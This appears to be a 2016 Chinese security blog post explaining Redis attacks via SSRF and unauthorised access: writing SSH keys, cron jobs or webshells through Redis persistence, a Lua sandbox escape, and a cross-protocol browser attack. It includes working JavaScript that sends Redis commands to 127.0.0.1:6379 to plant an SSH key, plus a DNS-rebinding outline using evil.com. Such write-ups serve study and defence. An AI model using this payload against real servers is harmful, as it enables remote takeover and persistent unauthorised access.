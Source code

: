 ```yaml
---
id: 751
layout: post
title: 'Redis和SSRF'
date: 2016-07-20 17:57:00
author: virusdefender
tags: 
---
```


> 你以为bind了127.0.0.1就安全了么？

## 本地写文件

这个爆出来很久了。原理就是利用Redis的数据持久化。设置持久化文件的名称和路径，然后在Redis中写入文件内容，给Redis发送持久化的命令，这样Redis就会将数据库的内容写入执行的文件了。详细参考 http://blog.nsfocus.net/redis-unauthorized-ssh-free-password-vulnerabilities-fixes/

这个并不一定需要SSRF，如果Redis未授权访问的，那同样可以利用。

利用点

 - 写`$Home/.ssh/authorized_keys`，root用户就是`/root`，其他用户需要猜测或者遍历用户名。
 - 写`/var/spool/cron`，然后crontab定期执行，因为Redis持久化的数据可能包含其他的数据，所以写入的文件可能有一些垃圾信息，但是crontab对格式要求比较松，避免先去`flushall ` Redis。
 - 写webshell，但是得已知路径
 - slave of `$IP` 主从模式利用
 - 写`/etc/profile.d/`用户环境变量
 - AOF类型持久化，和RDB持久化类似，但是是纯文本的格式

## Redis中数据和web应用的结合

如果控制了Redis中的数据，很多时候和直接控制了数据库是一样的，可以有针对性的修改数据。参考 https://www.seebug.org/vuldb/ssvid-91879  在Redis中更改了全局变量的值，导致任意代码执行。里面有对gopher协议的利用，参考 https://blog.chaitin.com/gopher-attack-surfaces/

## Redis Lua Sandbox Escape

详情见 http://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/

利用了Redis的Lua支持，但是Redis的Lua是有sandbox的，不能执行任意的代码，怎么去尝试绕过？

https://gist.github.com/corsix/6575486 实现的了三个功能

 - 读取`TValue`结构体中的值
 - 读取任意内存地址上的8个字节，可以导致基地址泄露
 - 任意内存地址写8个字节

作者在多个系统和多个Redis上都测试通过，Redis已经修复这个问题 https://groups.google.com/forum/#!msg/redis-db/4Y6OqK8gEyk/Dg-5cejl-eUJ

## SSRF和CSRF结合体 看网页也能被拿shell

今天看到老外发了一个脑洞，https://ericrafaloff.com/client-side-redis-attack-poc/ 使用ajax直接给Redis发送请求，也利用的是Redis的Lua支持，原文中的Demo被我修改为写入ssh公钥的，当然上面提到的其他攻击方法都可以使用。

```js
var keydir = "/root/.ssh";
var cmd = new XMLHttpRequest();
cmd.open("POST", "http://127.0.0.1:6379");
cmd.send('eval \'' + 'redis.call(\"set\", \"hacked\", "\\r\\n\\nssh-rsa AAAAB... virusdefender@LiYangs-MacBook-Pro.local\\n\\n\\n\\n\"); redis.call(\"config\", \"set\", \"dir\", \"' + keydir + '/\"); redis.call(\"config\", \"set\", \"dbfilename\", \"authorized_keys\"); ' + '\' 0' + "\r\n");

var cmd = new XMLHttpRequest();
cmd.open("POST", "http://127.0.0.1:6379");
cmd.send('save\r\n');
```

在这里有一个最大的限制就是浏览器跨域请求的问题，根据 https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS 
 简单请求是可以直接跨域发送的，但是无法收到响应，简单请求的定义如下
 
>  只使用 GET, HEAD 或者 POST 请求方法。如果使用 POST 向服务器端传送数据，则数据类型(Content-Type)只能是 application/x-www-form-urlencoded, multipart/form-data 或 text/plain中的一种。

这里符合条件，所以可以直接发送请求到Redis端口。当然，还可以利用DNS Rebinding来绕过同源策略。步骤如下

 - 解析`evil.com`到正常ip，使用比较小的TTL
 - 用户浏览页面，页面中setTimeout到100秒后发送一个ajax请求到`evil.com`
 - 解析`evil.com`到`127.0.0.1`，因为TTL很小，所以生效很快，而且浏览器也会重新发送DNS查询
 - 100秒后，请求实际被发送到了`127.0.0.1`


录了一个小视频

<video src="https://dn-virusdefender-blog.qbox.me/redis-ssrf.mp4" controls="controls"></video>

##思考
 - 还有那些服务像Redis一样是很好利用？
 - http://www.freebuf.com/articles/web/19622.html 还有哪些跨协议攻击？




